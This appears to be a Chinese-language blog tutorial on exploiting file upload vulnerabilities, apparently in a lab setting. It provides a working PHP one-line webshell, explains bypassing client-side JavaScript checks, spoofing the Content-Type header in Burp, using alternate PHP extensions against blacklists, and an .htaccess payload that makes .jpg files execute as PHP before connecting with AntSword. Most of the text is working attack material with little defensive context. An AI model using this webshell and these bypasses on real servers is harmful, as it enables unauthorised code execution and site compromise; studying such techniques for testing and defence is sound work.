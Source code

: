 # 文件上传漏洞
* 一句话木马
```a.php
   <?php @eval($_POST['a']);?>
```
# js验证
* 没啥好说的直接禁用js就行

  ![image-20240512155543568](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121555667.png)

  ![image-20240512155718049](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121557103.png)

  ![image-20240512160033723](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121600818.png)

  
# MIME
服务端MIME类型检测是通过检查http中包含的Content-Type字段中的值来判断上传文件是否合法的。
* 利用Burp抓包，将报文中的Content-Type改成允许的类型(上传a.php)
>        Content-Type: image/gif（gif图像）
>        Content-Type: image/jpg（jpg图像）
>        Content-Type: image/png（png图像）



![屏幕截图 2024-05-12 160512](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121608074.png)

![屏幕截图 2024-05-12 160627](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121608989.png)


# 黑名单
* 特殊解析后缀：
  .phtml,.php3,.php4,.php5

* .htaccess绕过：  （适用于非nts的php版本）
  上传.htaccess 文件再上传a.jpg
```
<FilesMatch "\.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```
.htaccess文件把jpg文件解析成php,这样就可以上传jpg类型的webshell了然后蚁剑连接。

![image-20240512170051534](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121700589.png)

![image-20240512170037675](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121700730.png)

![image-20240512165914965](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121659094.png)
